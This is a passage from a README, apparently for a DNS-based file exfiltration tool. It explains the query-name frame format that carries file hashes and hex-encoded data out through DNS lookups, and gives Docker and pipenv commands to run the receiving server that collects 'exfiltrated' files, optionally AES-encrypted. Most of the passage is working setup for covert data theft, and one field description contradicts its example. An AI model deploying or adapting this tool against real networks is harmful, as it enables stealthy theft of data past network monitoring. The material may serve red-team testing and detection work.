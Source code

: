 ## Metadata Frame - File Hash
A 'file hash' metadata query could look like this: 
`NJsBr00000010000CC10C9F3C79DDDA4B9EF32DC59B618F0FACADCF1FAB6.t.co.`

Which, breaking it down is:
* NJsBr (The Ref. ID): This reference ID is unique for each transaction.
* 000000 (Sequence Number)
* 1 (Type): This is the type of the query. In this case, '4' means File Name frame.
* 0000C (Length): This is the length, in number of queries, of the file to being transmitted.
* 0 or 1 (Comrpessed flag): This is a flag to indicate the server if the content of the file is compressed or not.
* 0C9F3C79DDDA4B9EF32DC59B618F0FACADCF1FAB6 (sha1 hash): The hash of the file. To be compared with the file that the server has received.

## Data Frame
A 'data' query could look like this:
`NJsBr000001504B0304140000000800A4532955245BCDD8620000007000000.t.co.`
* NJsBr (The Ref. ID)
* 000001 (Sequence Number)
* 504B0304140000000800A4532955245BCDD8620000007000000 (Data)

# Usage 
## Server
The server requires permissions to listen on port 53/upd, which means that probably you need to run the script with `root` privileges or provide the capabilities to your user. Additionally, in Ubuntu systems, you probably need to kill [systemd-resolved](https://wiki.archlinux.org/title/Systemd-resolved) process before running this server.

There are two options to run the server, by creating a pipenv environment or using docker mapping theport 53/udp and a volume to keep the files exfiltrated to the docker container.

### Docker
```bash
git clone https://github.com/felmoltor/psdnsexfil
cd psdnsexfil
docker build . -t psdnsexfilserver
docker run -it --rm psdnsexfilserver -h
# Map the DNS ports and a volume to keep the files you exfiltrate from the client-side
mkdir exfiltrated
docker run -it --rm -p53:53 -p53:53/udp  -v $(pwd)/exfiltrated:/exfiltrated psdnsexfilserver -d t.co -o /exfiltrated
# If you want to receive encrypted data with the password 'Strong_Password_yes_123' use:
docker run -it --rm -p53:53 -p53:53/udp  -v $(pwd)/exfiltrated:/exfiltrated psdnsexfilserver -d t.co -o /exfiltrated -e AES -a Strong_Password_yes_123
```

### Pipenv
```bash
apt install pip
pip install pipenv
pipenv install .
pipenv shell
./fultonserver.py -h
mkdir exfiltrated
./fultonserver.py -d t.co -o exfiltrated -e AES -a Strong_Password_yes_123
```
